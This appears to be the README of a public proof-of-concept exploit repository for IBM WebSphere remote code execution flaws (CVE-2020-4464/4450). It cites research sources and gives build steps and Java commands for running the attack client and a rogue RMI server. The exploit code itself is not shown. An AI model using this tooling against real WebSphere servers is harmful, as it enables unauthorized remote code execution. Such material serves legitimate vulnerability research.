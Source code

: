 WSIF Gadget for WebSphere (CVE-2020-4464 / CVE-2020-4450)
=========================================================

This is based on the excellent blog posts of ZDI:

* https://www.thezdi.com/blog/2020/7/20/abusing-java-remote-protocols-in-ibm-websphere
* https://www.zerodayinitiative.com/blog/2020/9/29/exploiting-other-remote-protocols-in-ibm-websphere

... and the work of some fine Chinese hackers (I couldn't determine the true source for the code, feel free to open an Issue if you think you deserve credit):

* https://paper.seebug.org/1315/
* https://vlambda.com/wz_7iyDatDUdvs.html
* https://cert.360.cn/report/detail?id=3d016bdef66b8e29936f8cb364f265c8


My additions (not much, really):
* Dependencies + build script
* Publicly accessible RMI service
* Little code cleanup

Foxglove's code is pulled in as a submodule, you can use the WebSphere request file to trigger CVE-2020-4464.

You should copy the `plugins` and `runtimes` directories from WebSphere to the `lib` directory, then run `ant` to compile!

To run (Java 11):

```
java -cp .:runtimes/com.ibm.ws.orb_9.0.jar:runtimes/com.ibm.ws.admin.client_9.0.jar:plugins/com.ibm.ws.managedobject.jar:plugins/com.ibm.ws.runtime.jar:plugins/com.ibm.ws.batch.runtime.jar:plugins/javax.j2ee.ejb.jar:runtimes/com.ibm.jaxws.thinclient_9.0.jar --add-modules jdk.naming.rmi --add-exports='jdk.naming.rmi/com.sun.jndi.rmi.registry=ALL-UNNAMED' Test
```

```
java -cp .:plugins/com.ibm.ws.runtime.jar:runtimes/com.ibm.ws.admin.client_9.0.jar RMIServer
```